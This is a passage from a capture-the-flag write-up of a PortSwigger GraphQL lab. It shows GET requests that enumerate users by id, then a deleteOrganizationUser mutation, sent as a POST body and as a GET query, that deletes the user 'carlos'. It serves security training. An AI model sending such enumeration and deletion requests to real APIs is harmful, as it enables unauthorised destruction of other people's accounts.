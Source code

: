 **Query in GET request:**
```http
GET /api?query={getUser(id:1){id,username}} HTTP/2

GET /api?query={getUser(id:2){id,username}} HTTP/2

GET /api?query={getUser(id:3){id,username}} HTTP/2
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-3/images/Pasted%20image%2020230707140510.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-3/images/Pasted%20image%2020230707140525.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-3/images/Pasted%20image%2020230707140531.png)

As you can see, user `carlos`'s `id` is `3`.

**Then, we can use the `deleteOrganizationUser` mutation query to delete a user, like `carlos`:**

**Query in POST request:**
```graphql
mutation {
    deleteOrganizationUser(input:{id:3}) {
        user {
            id
            username    
        }
    }
}
```

**Query in GET request:**
```http
GET /api?query=mutation{deleteOrganizationUser(input:{id:3}){user{id,username}}} HTTP/2
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-3/images/Pasted%20image%2020230707141320.png)

We successfully deleted user `carlos`!

# What we've learned:

1. Discovering GraphQL Endpoint
2. Bypassing Introspection Defense